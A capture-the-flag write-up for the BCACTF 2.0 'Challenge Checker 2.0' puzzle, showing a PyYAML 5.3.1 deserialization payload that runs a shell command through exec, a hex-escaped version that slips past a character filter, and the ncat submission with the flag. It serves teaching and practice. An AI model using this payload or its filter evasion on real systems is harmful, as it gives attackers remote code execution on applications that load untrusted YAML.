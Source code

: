 # Challenge Checker 2.0 

#### Category : misc
#### Points : 200 points
#### Author : anli, Edward Feng

## Challenge
New version, better security, right?

-   [chall.yaml](https://objects.bcactf.com/bcactf2/challenge-checker-2/chall.yaml)
-   [requirements.txt](https://objects.bcactf.com/bcactf2/challenge-checker-2/requirements.txt)
-   [verify.py](https://objects.bcactf.com/bcactf2/challenge-checker-2/verify.py)
-   `nc misc.bcactf.com 49154`

## Solution

#### Bypassing the new version
Comparing to [Challenge Checker](https://github.com/aadiiks/CTF-Writeups/tree/master/BCACTF2.0_2021/misc/ChallengeChecker), we see from `requirements.txt` that the version has been upgraded to PyYAML 5.3.1 but it still has vulnerabilites.

Looking at https://hackmd.io/@harrier/uiuctf20,
it seems that the update is to block special characters like `.` and `_`.

To bypass this we change our payload from
```bash
!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "import os; os.system('cat flag.txt')"
 ```
 
 to
 ```bash
 !python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "\x5f\x5fimport\x5f\x5f('os')\x2esystem('cat flag\x2etxt')"
 ```
 
 So we basically changed special characters to their hex escaped values in order to bypass the regex check.
 
 #### Getting flag.txt
 Now  we just need to send the payload to the server
 
 ```bash
$ cat payload| ncat misc.bcactf.com 49154                                         
 
Paste in your chall.yaml file, then send an EOF:
bcactf{y0u_r3ally_0verc00k3d_th05e_yams_j5fc9g}
Fatal error: Data must be a dictionary
```

Flag : ```bcactf{y0u_r3ally_0verc00k3d_th05e_yams_j5fc9g}```

#### Note
I used ncat instead of nc to send the payload because I was having some problems sending EOF with nc.
 